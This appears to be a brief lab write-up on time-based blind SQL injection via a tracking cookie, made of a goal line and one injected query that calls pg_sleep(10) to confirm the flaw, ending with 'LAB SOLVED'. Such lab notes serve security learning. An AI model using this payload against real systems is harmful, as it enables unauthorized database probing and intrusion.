 **Blind SQL Injection with time delays**

*Vulnerable parameter - tracking cookie*

*-Goal:*prove that the field is vulnerable to blind SQLi (time based)

Analysis:

`select tracking-id from tracking-table where trackingid='ubqO82NDALvbUxA4'|| (SELECT pg_sleep(10))--'`

*`LAB SOLVED`*
